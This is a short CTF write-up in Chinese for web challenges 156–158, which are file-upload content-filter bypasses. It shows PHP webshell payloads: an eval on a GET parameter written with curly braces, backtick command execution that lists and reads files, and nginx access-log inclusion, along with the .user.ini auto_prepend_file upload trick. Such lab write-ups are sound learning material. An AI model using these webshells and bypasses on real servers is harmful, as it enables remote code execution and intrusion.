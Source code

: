 ## web 156 内容检测

这次还是内容检测。过滤了'php'字符串,'[]'中括号等。学到了新方法。原来还能用花括号

![花花](https://the0n3.top/medias/show-upload/9.png)

```php
<?=eval($_GET{1});?>
```

![花花](https://the0n3.top/medias/show-upload/10.png)

又get到了

## web 157 内容检测

这题又过滤了{}花括号，分号，'log'。思路还和上面一样，不过变成了RCE类型的题目了

还是正常上传.user.png文件，bp抓包把文件名改成.user.ini。接着处理图片马

```php
<?=`ls /var/www/html`?>
```

现在直接使用反引号执行命令，没有分号用?>强制闭合

![ls](https://the0n3.top/medias/show-upload/11.png)

每个马执行一条命令，过滤了'php'，用统配符处理

```php
<?=`tac /var/www/html/f*`?>
```

![tac](https://the0n3.top/medias/show-upload/12.png)

## web 158 内容检测

同上

```php
preg_match('/php|\{|\[|\;|log/i', $str);
```

检查upload.php源码发现过滤新增了log，那么上一题题应该考察日志包含了，或许这题考察的才是反引号命令执行？

<?=include'/var/log/nginx/access.log'?>

我回去试试，等我

测试成功，看来web157考察的真是日志包含，不过既然include结构和函数都能用，那么session包含应该也是行动通的，师傅们可以试试

![log](https://the0n3.top/medias/show-upload/13.png)

:::warning
往后做了几题后猛回头，既然.user.ini中的**auto_prepend_file**配置项功能就是文件包含，那么为什么多次一举再用一个1.png的图片马来实现文件包含，日志包含，session包含呢？不太行，ini文件不能拼接没有php玩法多，禁用'log'直接g，我们是聪明宝贝不上当(柴郡猫猫)
:::
